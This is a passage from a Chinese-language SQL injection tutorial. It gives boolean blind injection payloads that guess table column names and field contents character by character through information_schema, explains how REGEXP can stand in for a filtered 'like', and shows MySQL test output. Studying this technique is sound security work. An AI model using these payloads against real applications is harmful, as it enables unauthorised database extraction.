 

猜test库 tdb_admin表的第一个字段名第二个字: select * from test where id = 1 and if(substring((SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1),2,1)='i',1=1,1=2);

# 0x07 猜内容

读取某库某表某字段第一个字: select * from test where id = 1 and if(substring((SELECT 字段名 FROM 库名.表名 limit 0,1),1,1)='a',1=1,1=2);



读取某库某表某字段第二个字: select * from test where id = 1 and if(substring((SELECT 字段名 FROM 库名.表名 limit 0,1),2,1)='x',1=1,1=2);

# 八、REGEXP绕过like注入-实现模糊搜索的方法

# 0x00 概要

不允许 “like” 出现时的注入方法

使用 REGEXP 可以实现与 like 相同的功能

使用方法: **表达式 REGEXP '^判断条件'  相当于  表达式 like '判断条件%'**

# 0x01 测试数据



```plain
mysql> select user();
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)
```



```html
mysql> select current_user;
+----------------+
| current_user   |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)
```



```html
mysql> select * from users where id=48;
+----+------------------------------+----------+-----+----------+------+--------+---------------------+---------------------+
| id | unionid                      | nickname | sex | province | city | avatar | created_at          | updated_at          |
+----+------------------------------+----------+-----+----------+------+--------+---------------------+---------------------+
| 48 | oBjot1NCTkmEiaL-o-TAZD4npHUg | "ZOO"    |   1 | 广东     | 珠海 | NULL   | 2018-10-06 17:15:39 | 2018-10-06 17:15:39 |
+----+------------------------------+----------+-----+----------+------+--------+---------------------+---------------------+
1 row in set (0.00 sec)
```
